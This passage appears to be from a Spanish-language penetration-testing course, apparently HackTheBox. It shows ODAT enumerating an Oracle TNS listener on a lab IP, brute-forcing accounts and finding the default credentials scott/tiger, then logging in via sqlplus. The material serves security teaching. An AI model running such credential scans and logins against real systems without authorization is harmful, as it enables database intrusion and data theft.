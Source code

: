 Podemos usar la herramienta para realizar una variedad de escaneos para enumerar y recopilar información sobre los servicios de base de datos de Oracle y sus componentes. Esos escaneos pueden recuperar nombres de bases de datos, versiones, procesos en ejecución, cuentas de usuario, vulnerabilidades, configuraciones incorrectas, etc. Usemos la opción y probemos todos los módulos de la herramienta.`odat.py``all``odat.py`

#### ODAT

  Oráculo TNS

```shell-session
zunderrubb@htb[/htb]$ ./odat.py all -s 10.129.204.235

[+] Checking if target 10.129.204.235:1521 is well configured for a connection...
[+] According to a test, the TNS listener 10.129.204.235:1521 is well configured. Continue...

...SNIP...

[!] Notice: 'mdsys' account is locked, so skipping this username for password           #####################| ETA:  00:01:16 
[!] Notice: 'oracle_ocm' account is locked, so skipping this username for password       #####################| ETA:  00:01:05 
[!] Notice: 'outln' account is locked, so skipping this username for password           #####################| ETA:  00:00:59
[+] Valid credentials found: scott/tiger. Continue...

...SNIP...
```

En este ejemplo, encontramos credenciales válidas para el usuario y su contraseña. Después de eso, podemos usar la herramienta para conectarnos a la base de datos de Oracle e interactuar con ella.`scott``tiger``sqlplus`

#### SQLplus - Iniciar sesión

  Oráculo TNS

```shell-session
zunderrubb@htb[/htb]$ sqlplus scott/tiger@10.129.204.235/XE

SQL*Plus: Release 21.0.0.0.0 - Production on Mon Mar 6 11:19:21 2023
Version 21.4.0.0.0

Copyright (c) 1982, 2021, Oracle. All rights reserved.

ERROR:
ORA-28002: the password will expire within 7 days



Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> 
```

